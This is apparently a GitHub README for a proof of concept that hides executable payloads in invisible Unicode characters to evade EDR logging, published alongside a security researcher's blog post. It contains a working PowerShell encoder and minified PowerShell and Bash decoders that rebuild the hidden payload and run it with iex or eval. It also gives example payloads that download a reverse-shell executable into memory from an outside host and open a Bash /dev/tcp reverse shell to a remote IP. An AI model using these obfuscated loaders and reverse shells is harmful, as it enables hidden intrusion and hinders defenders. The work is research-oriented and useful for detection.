






# Invisible Unicode Obfuscation POC

This repository contains a minimal Proof of Concept demonstrating the abuse of invisible Unicode characters to obfuscate executable payloads in command lines and logs.

This POC is based on the research described in my blog. For a complete analysis of the technique, including execution behavior on Windows and Linux, XDR log visibility, detection strategies, and a detailed explanation of the proof of concept, refer to the full article: https://reggia.xyz/posts/invisible-unicode-obfuscation-beyong-glassworm.html

## Overview

The technique leverages Unicode characters that are rendered as invisible (or near-invisible) in consoles, process listings, and security telemetry and logs (XDR/EDR). Although visually indistinguishable from whitespace or empty strings, these characters have distinct byte representations and can therefore carry information.

## How It Works

The encoder follows this logic:
* it takes two main inputs: the **payload** and **two Unicode characters** (X and Y) chosen from the previously identified invisible character set
* each character of the payload is converted into its 8-bit binary representation
* for each bit:
	* `0` is represented by Unicode character X
	* `1` is represented by Unicode character Y
* the result is a long sequence of invisible Unicode characters whose length is 8× the original payload length

The decoder reverses the process, reconstructs the original payload, and evaluates it (for example via `Invoke-Expression` on Windows or `eval` on Linux).

## Obfuscator tool

This repository includes a client-side encoder/decoder tool implemented in JavaScript (file `invisibleUnicodeObfuscator.html` ). An online version of the tool is available on my website: https://reggia.xyz/tools/invisible-unicode-obfuscator.html



## POC (Windows)

### Powershell encoder
```powershell
$PAYLOAD = "Write-host paddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpaddingpadding malicious_command" 
$UNICODE1 = [char]0xFEFF
$UNICODE2 = [char]0x0020
$encoded = New-Object System.Text.StringBuilder
foreach ($ch in $PAYLOAD.ToCharArray()) {
	$bin = [Convert]::ToString([int][char]$ch, 2).PadLeft(8,'0')
	foreach ($b in $bin.ToCharArray()) {
		[void]$encoded.Append($(if ($b -eq '0') { $UNICODE1 } else { $UNICODE2 }))
	}
}
$encoded = $encoded.ToString()
$encoded
```

### Powershell decoder (variant #1, minified)
```powershell
powershell.exe -NoProfile -NoLogo -Command ('$e='''+($encoded -replace '''','''''')+''';$d=-join([regex]::Matches((-join($e.ToCharArray()|%{[int]([int]0x0020-eq[int]$_)})),''.{8}'')|%{[char][convert]::ToInt32($_.Value,2)});iex $d')
```

### Powershell decoder (variant #2, minified + ScriptBlock and `-Args`)
```powershell
powershell.exe -NoProfile -NoLogo -Command {param($e)$d=-join([regex]::Matches((-join($e.ToCharArray()|%{[int](0x0020-eq[int]$_)})),'.{8}')|%{[char][convert]::ToInt32($_.Value,2)});iex $d} -Args $encoded
```

This variant spawns powershell.exe from an existing PowerShell session using a ScriptBlock and -Args, causing the host to serialize the invisible Unicode payload as XML and then Base64-encode it into -EncodedCommand and -EncodedArguments, making it appear empty in logs while remaining executable.

An attacker can use these variants to encode malicious payloads. For example, `[Reflection.Assembly]::Load((iwr -Uri http://10.0.2.2:8000/revshell.exe -UseBasicParsing).RawContentStream.ToArray()); [ConnectBack.Program]::Main("")` can be used to download and load a malicious reverse shell directly into memory, gaining access to the victim system without spawning any additional child processes. As a result, the last relevant event may appear insignificant or non-malicious to an analyst, as it is composed almost entirely of whitespace and seems to operate on an empty variable.

## POC (Linux)

An attacker can encode payloads with this technique on Linux as well. For example, you can encode a very simple reverse shell like `exec 5<>/dev/tcp/82.85.145.134/80;cat <&5 | while read line; do $line 2>&5 >&5; done`, implemented exclusively using Bash built-in features, thus avoiding the execution of child processes that might expose the real command or its output.

### Bash decoder (eval + Perl)
```bash
eval "$(echo -n '                                                 ' | perl -C -ne 'foreach(split//){print(ord($_)==0x0009?"1":"0")}' | perl -lpe '$_=pack("B*",$_)')"
```

## Proofs

### Powershell decoder variant #1 in Windows Defender

### Powershell decoder variant #2 in Windows Defender


### Powershell decoder variant #1 (in memory Reverse Shell) in Sysinternal Process Explorer

### Bash decoder (Reverse Shell) in pspy

